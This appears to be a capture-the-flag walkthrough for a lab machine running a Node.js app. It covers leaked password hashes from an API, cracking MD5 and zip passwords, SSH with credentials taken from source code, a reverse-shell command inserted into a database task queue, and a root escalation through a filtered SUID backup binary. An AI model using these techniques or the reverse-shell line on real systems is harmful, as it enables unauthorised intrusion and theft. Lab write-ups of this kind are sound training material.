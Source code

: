 node
---

## Steps

1. nmap to discover ports

22, 3000 was open

2. discovering APIs

Going to the site on the browser, and looking at `Debugger`, we can see the source files.

Looking at `app.js`, we see the call to `/profile/:username`

On going to the url, we see a get request to `/api/users/username`

3. Admin login

When we visit `/api/users`, we see the admin and the hash of the password

MD5 cracker gives us the password, and we can login to the interface

4. Downloading the source and SSH to Mark

After we download the backup, we change the extension to `.zip` and see that it is password protected

using `john`, we can crack the password and unzip the file

we look at `app.js` and see the credentials used to login to MongoDB

mark:<password>@localhost...

Using those credentials, we can SSH as mark to the server

5. Getting to Tom through DB insertion

Mark doesn't have any sudo rights, so we try to get Tom

Running `ps aux | grep tom`, we see that its running some processes

One of the processes checks the database for commands and executes it

We insert our command in the database

`db.tasks.insert({"cmd": "bash -c 'bash -i >& /dev/tcp/IP/PORT 0>&1'"})`

Setup a nc listener and wait for the connection

Once we login as Tom, we get the user.txt flag

## Root flag

1. Running `backup` with SUID

run `id` on tom, and we see that we are in the group `admin`

We find all binaries that we can run as admin

`find / -group admin 2>/dev/null`

We can run `/usr/local/bin/backup` as admin, and it has a sticky bit set owned by root, so any commands run by this binary is run as root

2. `ltrace` `backup` binary

Running `ltrace` on `backup`, we see that it checks `/etc/myplace/keys` for the a key

By using one of the keys, we can use backup to zip the `/root` folder

`backup -q <key> /root`

3. Troll face

After unziping the file, we get a troll face.

We discover this is because we have used the string `/root` in the backup process

running `ltrace` again on the binary with the correct token, we see that it checks for certain strings which when present, shows the troll face

```
strstr("/root", "..")                            = nil
strstr("/root", "/root")                         = "/root"
```

4. Not getting the troll face

instead of putting `/root`, we can use a wildcard `/roo*/` which will give us the same effect of zipping the whole folder.

Now when you unzip the file, it gives you the entire root folder where you can find `root.txt`
